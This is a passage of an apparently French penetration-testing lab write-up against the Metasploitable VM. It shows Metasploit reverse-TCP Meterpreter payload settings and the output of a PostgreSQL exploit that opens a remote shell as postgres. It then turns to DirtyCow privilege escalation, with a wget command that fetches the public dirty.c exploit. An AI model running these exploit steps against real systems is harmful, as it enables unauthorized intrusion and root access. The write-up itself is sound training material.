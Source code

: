 ```bash


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.11.2       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux x86
```

C'est exploit nous permet d'obtenir une exécution de commande avec les droits postgres :

```bash
msf6 exploit(linux/postgres/postgres_payload) > run

[*] Started reverse TCP handler on 10.10.11.2:4444 
[*] 10.10.11.32:5432 - PostgreSQL 8.3.1 on i486-pc-linux-gnu, compiled by GCC cc (GCC) 4.2.3 (Ubuntu 4.2.3-2ubuntu4)
[*] Sending stage (984904 bytes) to 10.10.11.32
[*] Uploaded as /tmp/eksNfHOu.so, should be cleaned up automatically
[*] Sending stage (984904 bytes) to 10.10.11.32
[*] Meterpreter session 2 opened (10.10.11.2:4444 -> 10.10.11.32:52875) at 2021-05-18 16:39:42 +0200

meterpreter > getuid
Server username: postgres @ metasploitable (uid=108, gid=117, euid=108, egid=117)
```

### Élévation de privilèges avec DirtyCow

La version du noyau Linux utilisé est affecté par DirtyCow :

```
$ uname -a
Linux metasploitable 2.6.24-16-server 
```

[https://dirtycow.ninja/](https://dirtycow.ninja/)

On peut utiliser l'exploit suivant pour éléver ses privilèges :
[https://github.com/FireFart/dirtycow/blob/master/dirty.c](https://github.com/FireFart/dirtycow/blob/master/dirty.c)


Vous pouvez téléchager l'exploit sur votre kali avec la commande `wget` :

```bash
wget https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
```
